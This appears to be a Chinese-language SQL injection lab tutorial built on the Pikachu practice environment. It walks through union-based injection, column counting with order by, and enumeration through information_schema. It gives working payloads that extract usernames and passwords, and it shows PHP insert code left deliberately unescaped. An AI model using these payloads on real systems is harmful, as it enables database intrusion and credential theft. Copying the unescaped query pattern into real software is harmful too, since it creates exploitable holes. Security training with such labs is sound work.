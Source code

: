 **漏洞利用**

payload: 1') or 1=1#
## information_schema注入

**概述**

union联合查询拿下数据库：
 ```
select username,password from user where id=1 union select 字段1,字段2 from 表名
```


**order by**

使用 union 需要知道主查询有多少个 字段，我们可以用 order by 来帮助我们猜测后台查询语句查询的字段数

```
select 字段1,字段2 from users order by 1
```

**information_schema**
在mysql中，自带的 information_schema 库里存放了大量的重要信息，如果存在注入点，我们可以访问这个表获得更多信息。

里面有三个基本表：
- SCHEMATA: 提供了MysqlSQL实例中所有数据库的信息，show databases结果来自这个表。
- TABLESL 提供了关于数据库中表的信息。
- COLUMNS：提供了表中各列的信息。

**漏洞实验**

这里拿字符型注入实验
```
' or 1=1 order by 1#
' or 1=1 order by 2#
' or 1=1 order by 3#
```

order by 3 时会报错，说明主查询存在2个字段，接着可用union联合查询更多信息

```sql
' union select database(),user() #
' union select table_schema,table_name from information_schema.tables where table_schema='pikachu' #
' union select table_name,column_name from information_schema.columns where table_name='users' #
' union select username,password from users #
```

## insert/update/delete注入
- 这三种情况下不能用union去做联合查询，因为是操作函数

**服务端核心代码**

```php
if(isset($_POST['submit'])){
    if($_POST['username']!=null &&$_POST['password']!=null){
//      $getdata=escape($link, $_POST);//转义

        //没转义,导致注入漏洞,操作类型为insert
        $getdata=$_POST;
        $query="insert into member(username,pw,sex,phonenum,email,address) values('{$getdata['username']}',md5('{$getdata['password']}'),'{$getdata['sex']}','{$getdata['phonenum']}','{$getdata['email']}','{$getdata['add']}')";
        $result=execute($link, $query);
        if(mysqli_affected_rows($link)==1){
            $html.="<p>注册成功,请返回<a href='sqli_login.php'>登录</a></p>";
        }else {
            $html.="<p>注册失败,请检查下数据库是否还活着</p>";

        }
```